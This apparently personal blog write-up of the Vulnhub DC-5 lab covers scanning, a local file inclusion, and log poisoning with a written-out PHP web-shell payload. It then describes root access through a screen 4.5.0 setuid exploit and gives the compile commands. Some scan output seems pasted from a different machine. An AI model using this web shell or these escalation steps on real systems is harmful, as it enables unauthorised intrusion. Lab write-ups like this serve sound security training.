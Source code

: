 ```yaml
---
title:     "Vulnhub - DC 5"
tags: [easy,lfi,log-poisoning]
categories: Vulnhub
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/1.png)
Today, We are going to pwn DC 5 by DCAU7 from Vulnhub


## Description
>DC-5 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
The plan was for DC-5 to kick it up a notch, so this might not be  great for beginners, but should be ok for people with intermediate or  better experience. Time will tell (as will feedback).
As far as I am aware, there is only one exploitable entry point to  get in (there is no SSH either). This particular entry point may be  quite hard to identify, but it is there. You need to look for something a  little out of the ordinary (something that changes with a refresh of a  page). This will hopefully provide some kind of idea as to what the  vulnerability might involve.
And just for the record, there is no phpmailer exploit involved. :-)
The ultimate goal of this challenge is to get root and to read the one and only flag.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always  tweet me at @DCAU7 for assistance to get you going again. But take note:  I won't give you the answer, instead, I'll give you an idea about how  to move forward.
But if you're really, really stuck, you can watch this video which shows the first step.

Download link: <https://www.vulnhub.com/entry/dc-5,314/>

Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT      STATE SERVICE
80/tcp    open  http
111/tcp   open  rpcbind
45669/tcp open  unknown
```

```
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Looks like only HTTP port is open so lets start our Gobuster

## Gobuster Result
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.9
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/27 17:30:35 Starting gobuster
===============================================================
/css (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
===============================================================
2019/11/27 17:30:36 Finished
===============================================================
```

Well gobuster didn’t find anything interesting.

Lets Check the webpage and nothing Interesting too.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/1.png)

But there is form in ``contact`` page.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/2.png)

So i filled some random datas and submitted

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/3.png)

## Getting Shell

### Finding LFI

Once submitted it redirects to some new page with some kind of parameters. I think it is vulnerable to LFI (Local File Inclusion)
So lets test it.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/4.png)
Its Confirmed!!
Now all we need to do is get a reverse shell.

### LFI -> RCE
We know its running in nginx from nmap scans so we can do log poisoning.
For that we need to send a request

`` <?php system($_GET['cmd']); >>``

Now its injected , we know log files of nginx located in ``/var/log/nginx/error.log``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/5.png)
For more info read this article:
>https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/

We got the shell

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/6.png)

## Privilege Escalation

I uploaded my Linux Enumeration Script and found SETUID file

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/7.png)

>screen 4.5.0

Searchsploit shows me an exploit available

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/8.png)

> <https://www.exploit-db.com/exploits/41154>

I uploaded the script to the machine and tried running but i faced some error , so i split them into 3 parts

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/9.png)

And did the same commands

```
gcc -fPIC -shared -ldl -o exploit.so exploit.c
gcc -o rootshell rootshell.c
```
Now I uploaded them

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/10.png)

Run 411.sh

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/11.png)

We got Root 

``Flag`` <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/13.png)

